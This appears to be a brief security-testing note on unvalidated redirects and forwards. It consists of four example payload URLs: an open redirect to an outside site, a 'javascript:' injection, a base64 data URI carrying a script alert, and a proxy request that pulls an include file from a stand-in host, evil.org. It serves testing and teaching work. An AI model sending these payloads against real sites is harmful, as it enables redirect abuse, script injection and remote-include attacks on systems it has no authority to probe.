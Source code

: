 # A10 - Unvalidated Redirects and Forwards


http://10.6.6.13/redir.php?returnURL=https://citadelo.com

http://www.yoursiteurl.com/something.php?redir=javascript:alert(1)

http://10.6.6.13/redir.php?returnURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K

http://www.yoursiteurl.com/proxy.aspx?http://www.evil.org/evil_include.txt


